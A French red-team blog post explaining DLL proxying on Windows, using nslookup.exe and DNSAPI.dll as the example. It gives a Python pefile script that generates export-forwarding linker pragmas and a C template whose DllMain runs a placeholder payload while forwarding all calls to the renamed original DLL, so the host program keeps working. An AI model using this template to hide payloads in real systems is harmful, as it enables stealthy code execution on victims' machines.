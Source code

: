 +++
author = "Sh0ckFR"
title = "Martin et le DLL Proxying de cristal"
date = "2022-05-16"
description = "Martin et le DLL Proxying de cristal"
tags = [
    "red-team",
]
+++

Bonjour à tous et à toutes, pour faire suite à mon article [Martine à la recherche de la DLL Hijacking perdue](/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/) je vous propose aujourd'hui un article sur le DLL Proxying.

![Sh0ckFR DLL Proxying](/images/martin-dll-proxying.jpg)

Comme vous vous en doutez, le gars au centre c'est Martin et il ne savait pas trop ce qu'il lui arrivait avec ce pouvoir entre les mains, ici c'est pareil.

Vous avez pu comprendre les mécanismes du DLL Hijacking dans mon précédent post, mais je n'avais pas évoqué un point important.

Effectivement, que se passe t'il si on redirige une fonction d'un programme sans pour autant rediriger les autres fonctions de celui-ci ? vous avez 4 heures.

En vrai c'est relativement simple, ça peut crash, du moins vous pouvez bloquer l'exécution d'un programme et exécuter votre charge utile sans attendre de retour mais cela rend l'application originale inutilisable.

Dans un contexte où l'application n'est pas vraiment nécessaire pour l'utilisateur, ça fonctionne relativement bien, mais imaginez bloquer une bibliothèque importante pour un programme de l'utilisateur, votre charge utile fonctionnera mais l'utilisateur ne pourra plus utiliser son application originale.

Mais alors comment faire ?

La réponse est simple, rediriger TOUTES les fonctions du programme original (donc faire un DLL hijacking sur toutes les fonctions connues) et garder notre fonction vulnérable pour exécuter notre charge utile.

Reprenons l'exemple dans le précédent post, vous aviez vu `nslookup.exe` utilisait une librairie vulnérable au DLL Hijacking `DNSAPI.dll`, pour retrouver toutes nos fonctions il existe un programme :

http://www.nirsoft.net/utils/dllexp-x64.zip

On peut donc retrouver la table d'export via ce logiciel :

![Sh0ckFR DLL Proxying](/images/dll-proxying-1.png)

Et là magie, on retrouve notre fonction utilisée dans le précédent post `DnsQueryConfigAllocEx`

![Sh0ckFR DLL Proxying](/images/dll-proxying-2.png)

Une autre solution pour éviter d'être dépendant de notre programme `DLL Export Viewer` et d'utiliser la librairie `pefile` pour Python :

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

Ce qui donne un résultat du genre :

![Sh0ckFR DLL Proxying](/images/dll-proxying-3.png)

On voit que toutes les fonctions de DNSAPI.dll devront être redirigées vers une DLL nommée `proxy.dll`.

Il n'y a plus qu'à copier les exports pour le linked afin que nous puissons créer une DLL `DNSAPI.dll` avec toutes les fonctions attendues par la DLL originale `DNSAPI.dll` :

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    }
}
```

Il suffit ensuite de renommer la DLL originale `DNSAPI.dll` en `proxy.dll` et de copier notre nouvelle librairie `DNSAPI.dll` dans le même répertoire que le programme original et vous avez donc comme résultat un DLL Proxying parfait qui ne fera pas planter l'application originale.

Bien entendu, j'ai implémenté l'automatisation du DLL Proxying dans [DLLirant](https://github.com/Sh0ckFR/DLLirant) via l'argument `--proxydll` :

```python
python3 DLLirant.py -p "C:\THEFULLPATH\VulnerableDLL.dll"
```

## Crédits

itm4n - https://itm4n.github.io/dll-proxying/
